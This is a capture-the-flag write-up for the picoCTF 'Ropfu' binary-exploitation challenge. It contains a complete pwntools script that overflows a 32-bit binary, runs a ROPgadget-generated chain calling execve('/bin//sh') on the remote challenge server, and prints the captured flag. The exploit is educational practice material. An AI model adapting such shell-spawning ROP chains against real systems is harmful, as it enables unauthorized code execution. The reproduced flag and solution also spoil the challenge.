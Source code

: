 # Ropfu

## Challenge Description: What's ROP?

From the name of this challenge, it was pretty clear that ROP was needed to solve the challenge. Interestingly, the binary supplied was **32 bit** instead of **64 bit** in challenges that I've done before. Stitching the gadgets would be slightly different since 32 bit programs generally store their function parameters on the stack instead of the registers for 64 bit.

To solve the challenge, I performed the following: 

* Determined the offset of **28** from GEF
* Referred to this [article](http://shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/) on using **ROPGgadget**
* Used **--ropchain** from **ROPGgadget** to generated the payload 
* Made the following adjustments for a payload originally meant for *python2*
  * Imported python3's **pwn** library instead of python2's **struct**
  * Replaced **pack('<I', <opcode>)** with **p32(<opcode>)**

The final payload is as follows: 

```python
from pwn import *

e = context.binary = ELF('./vuln', checksec=False)
r = remote('saturn.picoctf.net',56464)

offset = 28
p = b"A" * offset
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'/bin'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5064) # @ .data + 4
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'//sh'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x41414141) # padding
p += p32(0x0804fb90) # xor eax, eax ; ret
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x08049022) # pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x08049e39) # pop ecx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080e5060) # padding without overwrite ebx
p += p32(0x0804fb90) # xor eax, eax ; ret

# eax needs to be incremented to 11 for the execve syscall
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret

# Invoke a system call and execute our code
p += p32(0x0804a3d2) # int 0x80

r.sendline(p)
r.interactive()
```

Running the payload above produced the flag.

FLAG: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`
